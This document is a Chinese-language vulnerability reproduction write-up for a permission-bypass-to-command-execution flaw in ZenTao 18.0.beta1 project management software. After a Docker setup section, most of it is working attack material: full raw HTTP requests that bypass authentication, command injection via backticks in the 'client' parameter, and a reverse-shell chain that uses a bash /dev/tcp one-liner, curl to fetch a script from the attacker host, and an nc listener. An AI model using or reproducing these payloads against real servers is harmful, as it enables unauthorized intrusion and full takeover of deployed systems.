

# 禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

> **Created by：**A-little-dragon
>
> **Team：**TracelessSec
>
> **漏洞描述：**禅道 18.0.beta1 版本 权限绕过到命令执行漏洞

# 0x01 简介

禅道是第一款国产的开源项目管理软件，主要管理思想基于Scrum方法论，内置了产品管理和项目管理，同时又根据国内研发现状补充了测试管理、计划管理、发布管理、文档管理、事务管理等功能，在一个软件中就可以将软件研发中的需求、任务、bug、用例、计划、发布等要素有序的跟踪管理起来，完整地覆盖了项目管理的核心流程。

# 0x02 漏洞描述

禅道17.4以下版本存在权限绕过到命令执行漏洞。该漏洞是由于禅道项目管理系统权限认证存在缺陷导致，攻击者可利用该漏洞在未授权的情况下，通过权限绕过在服务器执行任意命令。

# 0x03  影响版本

|        | 影响版本                                        |
| ------ | ----------------------------------------------- |
| 企业版 | 7.4以下的未知版本<=version<=8.0.beta1 8.0.beta2 |
| 开源版 | 17.4以下的未知版本<=version<=18.0.beta1         |
| 旗舰版 | 3.4以下的未知版本<=version<=4.0.beta1           |

# 0x04 环境搭建

官网地址：[https://www.zentao.net/page/download-new.html#/](https://www.zentao.net/page/download-new.html#/)

下载版本：18.0.beta1

将该版本下载至linux centos中的opt目录下，解压后，进入zbox目录

```bash
# 拉取镜像
docker pull easysoft/zentao:18.0.beta1

# 启动容器
docker run --name zentao -p 80:80 -v /www/zentaopms:/www/zentaopms -v /www/mysqldata:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d easysoft/zentao:18.0.beta1

# 运行脚本 部署环境
./zbox start
```

执行完上面3条命令后，浏览器直接访问 `http://宿主机IP:宿主机映射端口`，一直点下一步即可完成配置。

# 0X05 漏洞复现

登陆后，Burpsuite抓包后，发送到重发器中并修改为以下内容

```bash
GET /misc-captcha-user.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
```

修改完毕后放包，接着再次修改请求包内容

```bash
POST /repo-create.html HTTP/1.1
Host: 192.168.81.173
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Referer: http://192.168.81.173//repo-edit-1-0.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie: zentaosid=u6vl6rc62jiqof4g5jtle6pft2; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

product%5B%5D=1&SCM=Gitlab&name=66666&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
```

结果如下：



再次修改请求包内容，此时返回包中会包含命令执行的结果

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`id`
```


攻击者本地创新文件`1.sh` ，并写入反弹shell脚本命令

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1'
```


在该文件所在目录下打开cmd，使用python3启动一个http服务器

```bash
python3 -m http.server 8080
```


再次新建cmd，使用nc监听8888端口

```bash
nc -lnvp 8888
```


burpsuite修改请求包如下：

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`curl http://攻击者IP:端口/1.sh -o /tmp/1.sh`
```

放包后，再次修改请求包内容

```bash
POST /repo-edit-10000-10000.html HTTP/1.1
Host: 192.168.81.173
Content-Length: 26
Pragma: no-cache
Referer: http://192.168.81.173//repo-edit-1-0.html1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
Cookie:  zentaosid=u6vl6rc62jiqof4g5jtle6pft2;; device=desktop; theme=default
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

SCM=Subversion&client=`bash 1.sh`
```

成功拿到shell

